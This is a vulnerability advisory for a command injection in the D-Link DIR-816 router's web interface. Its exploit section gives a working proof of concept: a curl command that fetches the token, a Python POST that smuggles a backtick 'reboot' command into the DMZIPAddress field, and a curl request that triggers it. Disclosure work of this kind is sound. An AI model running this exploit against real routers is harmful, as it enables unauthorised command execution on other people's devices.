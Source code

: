 ## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `/goform/singlePortForwardDelete` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

Vulnerability occurs in `/goform/singlePortForwardDelete`. Attackers can control `v4` by setting the `DMZIPAddress`, then passed its value to `v32`, and finally call the `dosystem`.

![2](./img/2.png)

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `DMZIPAddress`.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Next, set the `DMZIPADDRESS` by access `/goform/DMZ`.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/DMZ'

data = {
    'tokenid': tokenid,
    'DMZIPAddress': "foo`reboot`bar"
}

r = requests.post(url, data)
```

Finally, run the command `reboot` by access `/goform/singlePortForwardDelete`.

```
curl http://192.168.0.1/goform/singlePortForwardDelete
```


